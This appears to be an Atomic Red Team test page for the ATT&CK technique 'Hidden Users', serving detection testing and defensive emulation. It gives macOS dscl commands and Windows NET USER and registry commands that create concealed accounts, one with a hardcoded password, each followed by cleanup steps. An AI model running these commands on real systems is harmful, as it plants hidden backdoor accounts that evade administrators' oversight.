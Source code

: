 # T1564.002 - Hide Artifacts: Hidden Users
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564/002)
<blockquote>Adversaries may use hidden users to hide the presence of user accounts they create or modify. Administrators may want to hide users when there are many user accounts on a given system or if they want to hide their administrative or other management accounts from other users. 

In macOS, adversaries can create or modify a user to be hidden through manipulating plist files, folder attributes, and user attributes. To prevent a user from being shown on the login screen and in System Preferences, adversaries can set the userID to be under 500 and set the key value <code>Hide500Users</code> to <code>TRUE</code> in the <code>/Library/Preferences/com.apple.loginwindow</code> plist file.(Citation: Cybereason OSX Pirrit) Every user has a userID associated with it. When the <code>Hide500Users</code> key value is set to <code>TRUE</code>, users with a userID under 500 do not appear on the login screen and in System Preferences. Using the command line, adversaries can use the <code>dscl</code> utility to create hidden user accounts by setting the <code>IsHidden</code> attribute to <code>1</code>. Adversaries can also hide a user’s home folder by changing the <code>chflags</code> to hidden.(Citation: Apple Support Hide a User Account) 

Adversaries may similarly hide user accounts in Windows. Adversaries can set the <code>HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList</code> Registry key value to <code>0</code> for a specific user to prevent that user from being listed on the logon screen.(Citation: FireEye SMOKEDHAM June 2021)(Citation: US-CERT TA18-074A)

On Linux systems, adversaries may hide user accounts from the login screen, also referred to as the greeter. The method an adversary may use depends on which Display Manager the distribution is currently using. For example, on an Ubuntu system using the GNOME Display Manger (GDM), accounts may be hidden from the greeter using the <code>gsettings</code> command (ex: <code>sudo -u gdm gsettings set org.gnome.login-screen disable-user-list true</code>).(Citation: Hide GDM User Accounts) Display Managers are not anchored to specific distributions and may be changed by a user or adversary.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create Hidden User using UniqueID < 500](#atomic-test-1---create-hidden-user-using-uniqueid--500)

- [Atomic Test #2 - Create Hidden User using IsHidden option](#atomic-test-2---create-hidden-user-using-ishidden-option)

- [Atomic Test #3 - Create Hidden User in Registry](#atomic-test-3---create-hidden-user-in-registry)


<br/>

## Atomic Test #1 - Create Hidden User using UniqueID < 500
Add a hidden user on macOS using Unique ID < 500 (users with that ID are hidden by default)

**Supported Platforms:** macOS


**auto_generated_guid:** 4238a7f0-a980-4fff-98a2-dfc0a363d507





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | string | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} UniqueID 333
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #2 - Create Hidden User using IsHidden option
Add a hidden user on macOS using IsHidden optoin

**Supported Platforms:** macOS


**auto_generated_guid:** de87ed7b-52c3-43fd-9554-730f695e7f31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | string | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} IsHidden 1
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #3 - Create Hidden User in Registry
Adversaries may similarly hide user accounts in Windows. Adversaries can set the HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList Registry key value to 0 for a specific user to prevent that user from being listed on the logon screen.
Reference https://attack.mitre.org/techniques/T1564/002/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/

**Supported Platforms:** Windows


**auto_generated_guid:** 173126b7-afe4-45eb-8680-fa9f6400431c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_password | Password for new user account | string | At0micRedTeam!|
| user_name | Username | string | AtomicOperator|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
NET USER #{user_name}$ #{user_password} /ADD /expires:never 
REG ADD "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v #{user_name}$ /t REG_DWORD /d 0
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v #{user_name}$ /f >nul 2>&1
net user ${user_name}$ /delete >nul 2>&1
```





<br/>
